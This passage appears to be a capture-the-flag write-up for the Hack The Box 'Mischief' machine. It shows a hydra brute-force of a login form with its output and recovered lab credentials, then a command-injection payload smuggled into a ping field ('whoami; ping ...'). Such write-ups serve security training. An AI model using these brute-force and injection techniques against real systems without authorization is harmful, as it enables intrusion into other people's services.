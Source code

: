```
user
root
trickster
guest
```

The lists were generated from splitting all the words in the passwords we have encountered so far, `miscief` comes from the page title of the first website, this could be a typo, or could be on purpose, this is a trolly box so we assume nothing is a mistake, at the end we have also added some common default credentials.

We use burp to intercept a test login request and can see that a failed login includes some new content on the page "Sorry, those credentials do not match"
![223543345.png]({{site.baseurl}}/Images/Mischief/223543345.png)


We can use the details of this request combined with the tool `hydra` to brute force the login form:
```
root@kali: hydra -L user.txt -P passwords.txt mischief.htb http-post-form "/login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-15 13:12:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:20/p:20), ~25 tries per task
[DATA] attacking http-post-form://mischief.htb:80//login.php:user=^USER^&password=^PASS^:Sorry, those credentials do not match
[80][http-post-form] host: mischief.htb   login: administrator   password: trickeryanddeceit
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-15 13:13:44
```


We get a hit! The credentials `administrator:trickeryanddeceit` are able to log in to the site:
![223576097.png]({{site.baseurl}}/Images/Mischief/223576097.png)


The website states that there are credentials in one of the users home directory's, sounds like a good next step to work towards.

Intercepting the default request with Burp we can see that we get no command output from the ping request:
![223739951.png]({{site.baseurl}}/Images/Mischief/223739951.png)


It looks like simply adding a new line character [ENTER] after the ping command gets the site to show the command output:
![45643.png]({{site.baseurl}}/Images/Mischief/45643.png)


Starting with some basic command chaining we can see who the website is running as:
```
command=whoami; ping -c 2 127.0.0.1

www-data
```
